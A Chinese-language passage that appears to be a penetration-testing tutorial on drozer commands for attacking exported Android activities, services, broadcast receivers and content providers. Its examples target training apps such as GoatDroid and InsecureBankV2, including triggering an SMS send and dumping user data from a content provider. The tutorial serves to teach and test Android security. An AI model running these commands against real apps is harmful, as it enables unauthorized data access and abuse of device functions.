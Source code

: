 可以发送命令直接启动某个指定的activity，操作语法如下：

> run app.activity.start --action [intent action] --category [intent category] --component  [package name] [component name]

示例如下,

> run app.activity.start --component org.owasp.goatdroid.fourgoats  org.owasp.goatdroid.fourgoats.activities.ViewProfile

## 攻击service

查看那些service是导出的

> run app.service.info --permission null

查看某个包的可导出service

> run app.service.info -a org.owasp.goatdroid.fourgoats

启动service的语法如下，

> run app.service.start --action [action] --category [category] --data-uri [DATA-URI] --component  [package name] [component name] --extra [TYPE KEY VALUE] --mimetype [MIMETYPE]

## 攻击broadcast receiver
> run app.broadcast.send --action [action] --category [category] --data-uri [DATA-URI] --component  [package name] [component name] --extra [TYPE KEY VALUE] -flags [FLAGS] --mimetype [MIMETYPE]

示例，

> run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver --extra string phoneNumber 1234567890 --extra string message PWNED

## 攻击content provider

查看那些content provider是导出的（不需要权限的），

> run app.provider.info --permission null

查看某个包的可导出content provider

> run app.provider.info -a com.android.insecurebankv2

查找可以访问Content Provider的URI

> run scanner.provider.finduris -a com.android.insecurebankv2

从content中获取数据

> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/

~~提取这些数据~~

> ~~run app.provider.download content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/ /sdcard/1~~
